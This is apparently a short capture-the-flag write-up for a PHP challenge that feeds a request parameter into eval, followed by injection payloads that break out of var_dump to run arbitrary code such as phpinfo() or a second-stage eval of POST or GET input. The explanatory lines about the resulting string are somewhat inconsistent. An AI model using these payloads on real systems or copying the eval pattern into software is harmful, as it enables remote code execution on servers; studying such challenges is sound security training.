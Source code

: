 # Challenge 
```php 
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```

# Solution
payload1:
```
?hello=);eval($_POST['A']);%2f%2f

或

?hello=);eval(phpinfo());//
```
var_dump($a);后的结果为  `string(22) ");eval($_POST['A']);//" `
即 `eval("string(21) ");eval($_GET['A']);//""); `

payload2:
```
?hello=);eval($_GET[c]&c=phpinfo();
```
即 eval("string(17) ");eval($_GET[c]" string(0) "" ");
# Refference
+ [XNUCA 赛前指导 default](http://218.76.35.74:20131/index2.php)
